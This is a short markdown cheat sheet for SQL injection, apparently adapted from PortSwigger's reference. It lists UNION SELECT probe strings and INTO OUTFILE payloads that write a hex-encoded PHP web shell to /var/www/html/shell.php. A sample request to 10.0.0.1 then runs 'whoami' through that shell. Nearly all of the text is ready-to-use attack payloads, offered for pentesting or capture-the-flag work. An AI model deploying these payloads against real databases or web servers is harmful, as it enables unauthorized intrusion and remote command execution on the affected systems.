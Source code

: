 ```yaml
---
title: SQL Injection Cheat Sheet
desc: Cheat sheet for SQLi provided by PortSwigger.
tags: [SQLi]
alts: [Sqlmap]
website: https://portswigger.net/web-security/sql-injection/cheat-sheet
render_with_liquid: false
---
```


```
' UNION SELECT NULL,NULL#
' UNION SELECT NULL,NULL-- -
' UNION SELECT NULL,NULL--

```

<br />

## Write file

- Write new php file. '0x3C3F...' is hex ( <?php system($_GET["cmd"]) ?> in here )
- Access to http://10.0.0.1/shell.php?cmd=whoami

```
' INTO OUTFILE '/var/www/html/shell.php' LINES TERMINATED by 0x3C3F7068702073797374656D28245F4745545B22636D64225D29203F3E--
' INTO OUTFILE '/var/www/html/shell.php' LINES TERMINATED by 0x3C3F7068702073797374656D28245F4745545B22636D64225D29203F3E#
```